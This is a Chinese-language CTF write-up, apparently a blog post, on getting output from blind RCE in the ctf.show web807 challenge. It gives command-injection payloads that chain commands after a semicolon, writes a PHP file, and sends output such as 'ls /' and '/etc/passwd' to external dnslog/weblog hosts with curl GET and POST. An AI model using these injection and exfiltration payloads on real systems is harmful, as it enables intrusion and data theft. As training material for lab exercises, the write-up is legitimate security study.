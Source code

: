 ```yaml
---
title: 使用weblog平台接收无回显RCE命令执行结果
date: 2025-06-15 17:57:01
permalink: /pages/rce-weblog/
categories:
  - RCE
tags:
  - weblog
  - dnslog
author: 
  name: the0n3
  link: https://the0n3.top
---
```



题目存在RCE命令执行，使用了`exec`、`shell_exec`，反引号等执行命令，但是页面不会显示执行结果，这种情况称为无回显RCE。

解决方法：

- 尝试写文件，如木马webshell
- 尝试curl命令发起http请求，dnslog外带出结果
- 反弹shell
- 如果有wget命令，可以在远程服务器上写一个webshell，wget下载到靶机上
- 不出网且不能写文件时，可以考虑时间盲注

推荐写文件、dnslog、weblog外带，简单便捷零成本，即开即用。

举例，以题目[web807](https://ctf.show/challenges#web807-1847)举例：

题目这里shell_exec会对于用户传入的url进行访问，没有任何过滤，可以在shell_exec函数里使用分号执行多个命令

![1](/medias/rce-weblog/1.png)

## 写文件

使用echo命令搭配重定向符，把输出内容写入文件中

```bash
echo "<?php phpinfo(); ?>" > 1.php
```

payload：

```plaintext
url=https://127.0.0.1/;echo "<?php phpinfo(); ?>" > 1.php
```

访问1.php，发现没有这个文件，这道题可能没有写的权限。

## 使用curl发起http请求(dnslog/weblog)

推荐一个[dnslog](https://eyes.sh/dns/)平台，免费好用无需注册

使用反引号获取命令执行结果作为子域名，带出命令执行结果

```bash
curl "https://`whoami`.example.com"
```

在[dnslog](https://eyes.sh/dns/)获取一个平台分配的子域名，替换上面的域名

![2](/medias/rce-weblog/2.png)


dnslog payload：

```plaintext
url=https://127.0.0.1/;curl http://`whoami`.enwvbm6o.eyes.sh
```

提交payload可以看到子域名命令包含命令执行结果`www-data`

![3](/medias/rce-weblog/3.png)


dnslog有什么缺陷？

尝试把`whoami`替换成其他命令，如`ls /`,`cat /etc/passwd`

可以发现，dnslog子域名在遇到空格时，就断了，拿到的结果太短

![4](/medias/rce-weblog/4.png)

引出weblog的使用，weblog会记录完整的get请求，post请求，但是get请求下，命令执行结果函数有空格或换行时，还是会截断，因此更推荐使用post请求，拿到完整的命令执行结果。

把命令执行结果作为get请求的参数带出，get请求的payload：

```plaintext
url=https://127.0.0.1;curl http://enwvbm6o.eyes.sh/?1=`ls /`
```


注意这个weblog平台要用http。发现get请求还是会被空格、换行截断

![5](/medias/rce-weblog/5.png)

尝试使用curl发起post请求
```bash
curl -X POST -d "1=`ls /`" http://enwvbm6o.eyes.sh/
```

weblog payload：

```plaintext
url=https://127.0.0.1;curl -X POST -d "1=`ls /`" http://enwvbm6o.eyes.sh/
```

可以看到拿到了完整的命令执行结果

![6](/medias/rce-weblog/6.png)

weblog payload：

```plaintext
url=https://127.0.0.1;curl -X POST -d "1=`cat /etc/passwd`" http://enwvbm6o.eyes.sh/
```


![7](/medias/rce-weblog/7.png)